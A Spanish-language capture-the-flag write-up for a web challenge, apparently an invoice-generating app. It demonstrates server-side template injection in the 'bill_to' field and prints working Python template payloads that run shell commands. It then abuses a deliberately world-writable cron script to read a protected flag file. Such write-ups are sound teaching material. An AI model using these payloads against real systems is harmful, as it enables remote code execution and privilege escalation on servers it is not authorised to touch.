## Enumeration
Vamos a acceder a la aplicación web:



Vemos que nos hace una redirección al dominio `proforma.local`. Vamos a añadirlo a nuestro `/etc/hosts` y recargar:


Vemos que se trata de una aplicación para crear facturas. Si bajamos un poco vemos las siguientes opciones:



Vemos que la aplicación nos ofrece:
1. Ver una previsualización de la factura
2. Guardarla
3. Descargarla como PDF
Vamos a rellenar una factura falsa y vamos a probar la visualización de la factura en PDF:

Vemos los datos de la factura reflejados. Vamos a ver que solicitud HTTP realiza:


### Testing preview PDF
Vamos a probar si podemos inyectar código HTML, para ver si podemos usar más adelante la etiqueta `<iframe>` e intentar leer archivos internos con el protocolo URL `file://`.

Vamos a probar en cada campo que se refleje un input HTML:

```html
<h1>testing</h1>
```

Pero vemos que lo codifica evitando el uso de HTML, podríamos asegurarlo viendo la preview del PDF:


## Server-Side Template Injection
Vamos a probar a explotar un SSTI, ya que que quizás a nivel de back-end renderiza el input del usuario y eso nos permitiría inyectar datos en la plantilla:

*Payload*
```python
{{7*7}}
```


Vemos que el parámetro `bill_to` es vulnerable a SSTI. Vamos a intentar escalar esto a Remote Command Execution, vamos a probar el siguiente payload:

*Payload sacado de [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md)*
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```


Buscando el archivo `flag.txt` no la encontraremos, pero en la raíz del servidor hay un script llamado `entrypoint.sh` que contiene lo siguiente:
```sh
#!/bin/bash

set -e

# The flag belongs to the billing account (0600). It is reachable only after the
# SSTI RCE overwrites the writable reports.sh, which runs as billing. No
# ${FLAG:-...} fallback (brace-bug).
printf '%s\n' "$FLAG" > /home/billing/flag.txt
chown billing:billing /home/billing/flag.txt
chmod 600 /home/billing/flag.txt
chmod 700 /home/billing

# reports.sh is world-writable (the deploy slip the app user abuses); billing runs it.
chmod 0777 /opt/invoicing/reports.sh
mkdir -p /var/reports && chmod 0777 /var/reports

unset FLAG

exec /usr/bin/supervisord -c /etc/supervisor/conf.d/proforma.conf
```

Podemos ver que la `flag.txt` se encuentra alojada en `/home/blling`, donde le asigna los permisos `600` para que otros usuarios no la puedan leer. Pero vemos otro detalle importante, vemos un script donde tenemos total permiso llamado `reports.sh`, vamos a leerlo:
```sh
#!/bin/bash

# Nightly reporting job for the billing account. Writes a run marker.
mkdir -p /var/reports
date '+%F %T' > /var/reports/last_run.txt
```
Vemos que crea el directorio `/var/reports` y escribe la fecha en un archivo llamado `last_run.txt`. Vemos que también dice `nightly reporting job`, así que es posible de que haya una crontab ya que en el anterior script decía `billing runs it`. Así que desde el SSTI vamos a añadir una línea más de código al script `reports.sh` para que copie la `flag.txt` alojada en su home y la clone en `/tmp` con los respectivos permisos para que podamos leerlo:

*Payload*
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo+"cp+/home/billing/flag.txt+/tmp/+|+chmod+666+/tmp/flag.txt"+>>+/opt/invoicing/reports.sh').read() }}
```


Ahora si vemos `/tmp`:

Vamos a leerla:


